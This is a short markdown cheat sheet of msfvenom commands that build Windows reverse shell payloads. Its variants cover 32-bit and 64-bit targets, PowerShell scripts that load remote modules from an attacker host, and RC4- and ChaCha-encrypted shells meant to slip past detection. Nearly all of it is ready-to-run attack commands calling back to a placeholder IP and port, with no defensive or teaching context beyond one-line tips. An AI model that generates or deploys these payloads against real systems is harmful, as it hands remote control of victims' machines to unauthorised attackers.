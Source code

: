 # Reverse Shells

## 01 - x86 (32-bit) Payloads

- You can load powershell scripts ahead of time.

```
$ msfvenom -p cmd/windows/powershell_reverse_tcp lhost=<IP> lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o shell.ps1

$ msfvenom -p windows/powershell_reverse_tcp lhost=<IP> lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o shell.ps1
```

## 02 - x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f exe -o shell-x64.exe`

`$ msfvenom -p windows/x64/shell_reverse_tcp_rc4 lhost=<IP> lport=<PORT> rc4password="<KEY>" -f exe -o shell-x64.exe`

- You can encrypt the payload

```
$ msfvenom -p windows/x64/encrypted_shell_reverse_tcp chachakey=1234567890abcdef1234567890abdcef chachanonce=1234567890ab lhost=<IP> lport=<PORT> -f exe -o shell-enc-x64.exe
```

- You can load powershell scripts ahead of time.

```
$ msfvenom -p windows/x64/powershell_reverse_tcp lhost=<IP> lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o shell-x64.ps1
```